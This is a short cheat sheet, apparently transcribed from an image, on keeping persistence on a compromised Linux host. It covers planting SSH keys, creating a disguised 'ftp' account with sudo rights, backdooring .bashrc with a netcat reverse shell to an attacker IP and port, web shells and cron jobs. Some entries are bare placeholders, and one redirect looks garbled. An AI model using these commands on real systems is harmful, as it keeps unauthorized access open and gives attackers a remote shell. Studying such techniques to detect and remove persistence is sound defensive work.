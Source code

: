 - Account Manipulation
        - Persistence via SSH Keys
- Creating a privileged local account
    - Unix shell configuration modification
    - Backdooring the .bashrc file
- Web Shell/Backdoor
- Cron jobs

Persistence via SSH
```
ssh-keygen
/root/.ssh/authorized_keys
```

Creating a Privilege Account
```
useradd -m -s /bin/bash ftp
usermod -aG sudo ftp
```

Unix Shell Modification
```
nano ~/.bashrc
nc -e /bin/bash <ip> <port> @>/dev/null &
```

PHP WebShells
```
look for php scripts
```

Crontabs
```
crontab -e
```